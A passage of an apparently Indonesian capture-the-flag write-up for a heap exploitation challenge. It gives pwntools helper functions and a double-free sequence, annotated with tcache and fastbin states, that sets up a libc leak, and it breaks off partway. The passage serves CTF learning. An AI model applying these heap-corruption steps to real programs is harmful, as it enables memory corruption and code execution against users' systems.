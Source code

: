 ## exploit
buat mempermudah penulisan exploit,
```python
def insert(key, val):
    r.sendlineafter('>> ', '1')
    r.sendlineafter(': ', len(key).__str__())
    r.sendlineafter(': ', key)
    r.sendlineafter(': ', len(val).__str__())
    r.sendlineafter(': ', val)
    r.recvline(False)
    log.info(r.recvline(False))

def delete(key):
    r.sendlineafter('>> ', '2')
    r.sendlineafter(': ', key)
    log.info(r.recvline(False))

def lookup(key):
    r.sendlineafter('>> ', '3')
    r.sendlineafter(': ', key)
    r.recvuntil(': ')
    return r.recvline(False)
```
### leak
libc leak dapat memanfaatkan double-free. `free()` hanya dilakukan ke struct list ukurannya 0x20 yang berarti masuk ke `fastbin[1] (0x30)`.
```python
insert('A' * 8, 'a' * 8)

# fastbin[0] (0x20) : AAAAAAAA -> aaaaaaaa
# fastbin[1] (0x30) : A
# tcache_entry[1] (0x30 freelist) :
# list : A

insert('B' * 8, 'b' * 8)

# fastbin[0] (0x20) : AAAAAAAA -> aaaaaaaa -> BBBBBBBB -> bbbbbbbb
# fastbin[1] (0x30) : A -> B
# tcache_entry[1] (0x30 freelist) :
# list : A -> B

delete('B' * 8)

# tcache_entry[1] (0x30 freelist) : B
# list : A -> B

delete('A' * 8)

# tcache_entry[1] (0x30 freelist) : B -> A
# list : B

delete('B' * 8)

# tcache_entry[1] (0x30 freelist) : B -> A -> B
# list : B

# gdb-peda$ heapinfo
# (0x20)     fastbin[0]: 0x0
# (0x30)     fastbin[1]: 0x0
# (0x40)     fastbin[2]: 0x0
# (0x50)     fastbin[3]: 0x0
# (0x60)     fastbin[4]: 0x0
```